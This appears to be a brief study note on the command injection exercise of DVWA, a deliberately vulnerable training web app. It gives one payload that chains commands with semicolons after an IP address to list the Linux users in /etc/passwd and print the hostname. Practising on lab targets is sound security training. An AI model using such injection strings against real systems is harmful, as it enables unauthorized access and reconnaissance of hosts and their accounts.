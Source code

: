 #DVMA Dojo

## Command Injection
- We can run multiple command separated by a ';'
- Exercise script:
```shell 
    # cut -d: -f1 /etc/passwd --> get all user in Linux OS
    192.168.1.106; cut -d: -f1 /etc/passwd; hostname;
```